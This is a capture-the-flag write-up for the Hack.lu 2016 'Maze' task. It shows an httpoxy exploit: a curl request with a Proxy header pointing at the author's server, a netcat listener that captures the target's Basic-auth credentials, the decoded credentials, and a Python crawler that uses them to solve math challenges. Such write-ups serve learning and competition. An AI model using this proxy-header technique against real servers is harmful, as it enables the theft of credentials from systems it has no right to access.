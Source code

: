 Hack.lu 2016: Maze
==================

Description
----------

Maze was a programming task and worth 200 points. And the task was found at this url [https://cthulhu.fluxfingers.net:1507/](https://cthulhu.fluxfingers.net:1507/)

Step 1
------

![step1](img/step1.png)

From the website's task we found five links. The first four could we not visit since it required http authentication. But the fifth, [code.php](https://cthulhu.fluxfingers.net:1507/code.php), could we visit.  From here we could get a reference to 
```
# Ubuntu trusty
# Apache/2.4.7-1ubuntu4 
```
and this leaded us to a proxy request header vulnerability called [httpoxy](https://httpoxy.org/).  This vulnerability can be exploited with sending a http request with the proxy address with our server in the header field, and have that server listen with nc. Then their sever will visit my nc session with the http authentication credentials.  

```shell
 curl --header "Proxy: xxx.xx.xxx.xxx:13337" https://cthulhu.fluxfingers.net:1507/  
```

```shell
odinj@Ragnarok:/tmp/tmp$ nc -l -v -p 13337
listening on [any] 13337 ...
149.13.33.84: inverse host lookup failed: Unknown host
connect to [xxx.xx.xxx.xxx] from (UNKNOWN) [149.13.33.84] 49887
GET http://10.0.4.64/maze/ HTTP/1.1
Authorization: Basic c3VwM3JzM2NyM3R1czNyOm4wYjBkeWM0bmd1M3NteXA0c3N3MHJk
Host: 10.0.4.64
Accept: */*
Proxy-Connection: Keep-Alive
```

Then after decoding the base64 string I got the username and password for http authentication: **sup3rs3cr3tus3r:n0b0dyc4ngu3smyp4ssw0rd**

Step 2
------

Then after login in with http authentication, we got a math equation to solve. ![Step2](img/step2.png)
After solving the equation we got four new links. After a lot of failure and thinking I found out that this was graph traversing and created a python script for traversing all the URL and solve the math equations. Then after the python script did run about 30mins, the flag did appear.

```python

#! /usr/bin/python

#A hacked together script for solving Maze task at Hack.lu 2016

import requests
import re
from bs4 import BeautifulSoup
import time

username = 'sup3rs3cr3tus3r'
password = 'n0b0dyc4ngu3smyp4ssw0rd' 
url = 'https://cthulhu.fluxfingers.net:1507'

already_visited = []

def checkurl(link):
    global already_visited
    if link in already_visited:
        return False
    print(link)
    html_doc = requests.get(url+link, auth=(username, password)).content
    math = re.findall('(\d+)|([+*/-]+)', str(html_doc))
    print(html_doc)
    if not math:
        return
    already_visited.append(link)
    ##print(math)
    nr1 = int(math[0][0])
    nr2 = int(math[2][0])
    #print(math[1][1])
    if str(math[1][1]) == '+':
            tot = nr1 + nr2
    elif str(math[1][1]) == '-':
            tot = nr1 - nr2
    elif str(math[1][1]) == '/':
            tot = nr1 / nr2
    elif str(math[1][1]) == '*':
            tot = nr1 * nr2
    
    html_doc3 = requests.post(url+link, auth=(username, password), data = {'result':tot}).content
    #print(html_doc3)
    urllist2 = []	

    soup2 = BeautifulSoup(str(html_doc3), "html.parser")
    for link in soup2.find_all('a'):
        urllist2.append(link.get('href'))
    #print(urllist)
    #time.sleep(2)
    for urllink2 in urllist2:
        checkurl(urllink2)



	


urllist = []

html_doc = requests.get(url, auth=(username, password)).content

soup = BeautifulSoup(str(html_doc), "html.parser")
for link in soup.find_all('a'):
    urllist.append(link.get('href'))

urllist.remove("code.php")

for urllink in urllist:
	checkurl(urllink)
	



```
RUN:
```shell
./maze_solved.py
```

And thats is, and 200 point + bonus happier.
